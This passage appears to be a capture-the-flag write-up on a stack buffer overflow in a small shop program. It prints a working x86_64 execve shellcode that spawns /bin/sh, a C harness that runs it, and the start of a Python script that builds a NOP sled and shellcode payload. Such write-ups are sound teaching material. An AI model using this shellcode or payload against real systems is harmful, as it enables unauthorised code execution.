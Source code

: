 The strategy for exploitation will be as follows:

* Buy the second item, then exit and get the leaked address of the stack variable (*'“discount code”*). 
* Create the buffer that will contain a small `NOP` sled. the shellcode and the overwritten RIP.
* We will jump on the stack and continue executing our shellcode from there.
* Use [pwntools](https://docs.pwntools.com/) to calculate on-the-fly the address on the stack containing the shellcode, based on the difference between that and the leaked stack variable.
* We will first try to exploit the app locally in GDB (since stack address won’t be randomised and we can use a static payload) then port the exploit to `pwntools`, in order to be able to connect to the binary remotely. 

Before getting started, we’d need to find a short  Linux x86_64 `[execve](https://man7.org/linux/man-pages/man2/execve.2.html)` shellcode. Luckily with a quick online search we can find a few that match our conditions, with sizes ranging from 22-24 bytes. Very handy. Once we found one (for example [this one](https://www.exploit-db.com/exploits/46907)), we should test it to make sure it works as expected.

```
// gcc -fno-stack-protector -z execstack test_shellcode.c -o test_shellcode

#include <stdio.h>

int main(int argc, char **argv) {

    // Shellcode will be palced on the stack!
    // Compile with execstack flag
    
    unsigned char shellcode[] = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05";
     
    void (*payload_ptr)() =  (void(*)())shellcode;

    payload_ptr();
    
    return 0;
}

```

When using the above testing harness, remember to compile it with the [execstack](https://stackoverflow.com/questions/53346274/exactly-what-cases-does-the-gcc-execstack-flag-allow-and-how-does-it-enforce-it) flag, since the shellcode is stored on the stack in a local function variable. 

The following Python script creates a local payload file, that we will feed to the app via GDB:

```
import sys
import struct

# Entry setup (navigate the shop)
read_buf_size = 0x1f
shop  = b''
shop += b'2\x0a' + b'\x00' * (read_buf_size - 2)   # Buy second item
shop += b'3\x0a' + b'\x00' * (read_buf_size - 2)   # Exit and get the leaked address

# Offset where RBP is overwritten
offset = 58

# Spawn /bin/sh
shellcode = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'

buf  = b''

nops = b'\x90' * 10  # Small NOPs sled before the shellcode
buf += nops
```